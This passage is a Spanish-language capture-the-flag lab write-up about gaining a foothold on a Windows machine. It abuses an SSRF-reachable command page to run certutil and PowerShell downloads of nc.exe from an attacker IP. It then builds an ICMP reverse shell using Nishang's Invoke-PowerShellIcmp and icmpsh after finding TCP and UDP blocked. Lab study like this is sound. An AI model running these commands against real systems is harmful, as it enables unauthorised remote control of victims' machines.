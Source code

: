 ```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=certutil.exe -f -urlcache -split http://10.10.14.8/nc.exe nc.exe
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell iwr -uri http://10.10.14.8/nc.exe -OutFile test
```

No responde y vemos un exit status que no es 0.

Aqui vemos que las conexiones por TCP no funcionan. Puede ser porque hay reglas definidas que no permiten utilizar TCP y S4vitar
nos adelanta que tampoco funccionna por UDP.

Aqui hemos podido comprobar que:

- tenemos capacidad de ejecucion remota de commando.
- tenemos conectividad por trasa ICMP
- el protocolo TCP esta bloqueado
- el protocole UDP esta bloqueado

Segun esta analisis intentamos crearnos una reverse shell por **ICMP**

### Entablar una reverse shell por ICMP {-}

1. Nos descargamos el Nishang

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang
    cd Shells
    cp Invoke-PowerShellIcmp.ps1 ../../icmp.ps1
    cd ../..
    vi icmp.ps1
    ```

Aqui como tenemos que pasar por la url de la web para enviarnos el fichero, tenemos que preparar el fichero.

1. Ejecucion de comandos prealables en nuestra maquina

    ```bash
    sysctl -w net.ipv4.icmp_echo_ignore_all=1
    wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
    ```

1. Añadimos el invoke al final del fichero

    ```bash
    Invoke-PowerShellIcmp -IPAddress 10.10.14.8
    ```

1. Borramos todo los comentarios que hay en el fichero
1. Borramos todo los saltos de linea

    ```bash
    cat icmp.ps1 | sed '/^\s*$/d' > icmp
    rm icmp.ps1
    mv icmp icmp.ps1
    ```
